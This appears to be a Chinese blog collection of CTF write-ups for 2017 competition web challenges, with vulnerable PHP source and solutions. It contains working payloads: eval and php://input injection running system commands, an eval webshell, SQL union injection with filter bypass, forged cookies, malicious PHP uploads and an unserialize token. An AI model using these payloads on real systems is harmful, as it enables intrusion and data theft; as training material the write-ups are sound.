


“百度杯”CTF比赛 2017 二月场爆破-1
描述flag就在某六位变量中。
题目的意思是flag.php中定义了一个flag字符串 我们传递hello如果为那个变量 那个$$a就能把flag丢出来
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a )){
die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
?>爆破的话贼恶心，所以正确的姿势应该是 hello=GLOBALS,使用超全局变量GLOBALS
http://138c4d7d85c04385b91b779047d5906d0a331ddc3728405a.changame.ichunqiu.com/?hello=GLOBALS
得到
["d3f0f8"]=> string(42) "flag{bfed2cef-1a03-4337-9f55-b00ddbcc5f0a}“百度杯”CTF比赛 2017 二月场爆破-2
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__);payload
http://4139dc5d40184be4bb481b0d09226223d3815a7b2aea4456.changame.ichunqiu.com/?hello=file_get_contents('flag.php')“百度杯”CTF比赛 2017 二月场爆破-3
题目描述:这个真的是爆破
<?php
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
$_SESSION['nums'] = 0;
$_SESSION['time'] = time();
$_SESSION['whoami'] = 'ea';
}
if($_SESSION['time']+120<time()){
session_destroy();
}
$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];
if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
$_SESSION['nums']++;
$_SESSION['whoami'] = $str_rands;
echo $str_rands;
}
if($_SESSION['nums']>=10){
echo $flag;
}
show_source(__FILE__);
?>这样的题目本地调试最好了
其实就是传value要等于$_SESSION['whoami']，而后者每次会变，但是会显示出来
很沙雕的一点是substr(md5($value),5,4)==0,通过前面$value[0].$value[1]我们知道value是字符串数组，数组的md5是null，和0是弱相等的~所以第一次传?value[0]=e&value[1]=a,会返回两个字符 假设是bq 那就 ?value[0]=b&value[1]=q,十次就行，脚本写起来也简单
payload
import requests
url='http://9c132b640d22437c940c92547bb4a80f30f6958b40284a36.changame.ichunqiu.com/'
session=requests.Session()
html=session.get(url+'?value[]=ea').text
for i in range(10):
html=session.get(url+'?value[]='+html[0:2],timeout=2).text
if 'flag{.*}' in html:
break
print(html[0:2])
print (html[:50])
“百度杯”CTF比赛 2017 九月场-upload
题目描述
想怎么传就怎么传，就是这么任性。
tips:flag在flag.php中 过滤了<? 和php
使用<script language='PhP'>@eval($_POST['cmd']);</script>
读取flag即可，有时候system函数无回显可以加上base64cmd=system("cat ../flag.php | base64");然后解码即可
“百度杯”CTF比赛 2017 二月场-include
可以使用php://filter/convert.base64-encode/resource=index.php读取任意文件但是没啥用，不知道flag文件的名字
所以使用http://ace46edd1c9f412eb50fa9cd198420223e7b80edf0ee4d9c.changame.ichunqiu.com/?path=php://input
post<?php system("ls");?>读取目录<?php system("cat dle345aae.php | base64");?>读取到flag
“百度杯”CTF比赛 九月场 SQL
题目描述：出题人就告诉你这是个注入，有种别走！http://2733aeef10c94e969b49b24dd9e8a99bbdd989b14f4e482e.changame.ichunqiu.com/index.php?id=1 union se<>lect 1,4,3，学到了学到了<>分离http://2733aeef10c94e969b49b24dd9e8a99bbdd989b14f4e482e.changame.ichunqiu.com/index.php?id=1 union se<>lect 1,database(),3
获得数据库名字sqli然后一步一步http://2733aeef10c94e969b49b24dd9e8a99bbdd989b14f4e482e.changame.ichunqiu.com/index.php?id=1 union se<>lect 1,column_name,3 from information_schema.columns where table_schema='sqli' an<>d table_name='info'http://2733aeef10c94e969b49b24dd9e8a99bbdd989b14f4e482e.changame.ichunqiu.com/index.php?id=1 union se<>lect 1,flAg_T5ZNdrm,3 from info
得到flag
2017第二届广东省强网杯线上赛 who are you
题目描述：我是谁，我在哪，我要做什么？
看到回包有cookie=Zjo1OiJ0aHJmZyI7，是base64，原文f:5:"thrfg"; 是guest的rot13
所以用admin的rot13即nqzva，base64(f:5:"nqzva";) = Zjo1OiJucXp2YSI7 提交请求，提示
<!-- $filename = $_POST['filename']; $data = $_POST['data']; -->其实直接在burp改协议就行
POST / HTTP/1.1
Host: 106.75.72.168:2222
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7
Cookie: role=Zjo1OiJucXp2YSI7
Content-Length: 40
Content-Type: application/x-www-form-urlencoded
filename=1.php&data[]=<?php phpinfo();?>其中data=被过滤了。所以用数组也行
需要改的有Content-Type: application/x-www-form-urlencoded,POST,filename=1.php&data[]=<?php phpinfo();?>
其中Content-Type:和post内容之间要隔一行，不隔和隔多行都会错！！
返回your file is in ./uploads/43e507c83488affbfa10327a65dc1d0a1.php</body>
访问即可得到flag
第三届“百越杯”福建省高校网络空间安全大赛-Do you know upload？
首先文件上传，抓包改后缀即可，然后发现没有flag!!!
但是读取config.php的时候
<?php
error_reporting(0);
session_start();
$servername = "localhost";
$username = "ctf";
$password = "ctfctfctf";
$database = "ctf";
// 创建连接
$conn = mysql_connect($servername,$username,$password) or die(" connect to mysql error");
mysql_select_db($database);
?>然后通过蚁剑连接数据库，获得flag

百度杯”CTF比赛 十月场 —–Login
先test1,test1登录，请求头中有个show:0改成1，看到代码，就是代码审计咯
<?php
include 'common.php';
$requset = array_merge($_GET, $_POST, $_SESSION, $_COOKIE);
class db
{
public $where;
function __wakeup()
{
if(!empty($this->where))
{
$this->select($this->where);
}
}
function select($where)
{
$sql = mysql_query('select * from user where '.$where);
return @mysql_fetch_array($sql);
}
}
if(isset($requset['token']))
{
$login = unserialize(gzuncompress(base64_decode($requset['token'])));
$db = new db();
$row = $db->select('user=\''.mysql_real_escape_string($login['user']).'\'');
if($login['user'] === 'ichunqiu')
{
echo $flag;
}else if($row['pass'] !== $login['pass']){
echo 'unserialize injection!!';
}else{
echo "(â¯âµâ¡â²)â¯ï¸µâ´ââ´ ";
}
}else{
header('Location: index.php?error=1');
}
?得知要得到flag需要满足 $login[‘user’] === ‘ichunqiu’
而user被$login = unserialize(gzuncompress(base64_decode($requset[‘token’])));处理过
<?php
$a=array('user'=>'ichunqiu');
var_dump($a);
echo base64_encode(gzcompress(serialize($a)));
?>得到eJxLtDK0qi62MrFSKi1OLVKyLraysFLKTM4ozSvMLFWyrgUAo4oKXA==
抓包将cookie中加一个token=eJxLtDK0qi62MrFSKi1OLVKyLraysFLKTM4ozSvMLFWyrgUAo4oKXA==
有一点很头疼，为啥直接在get请求中加不行么,一定要token中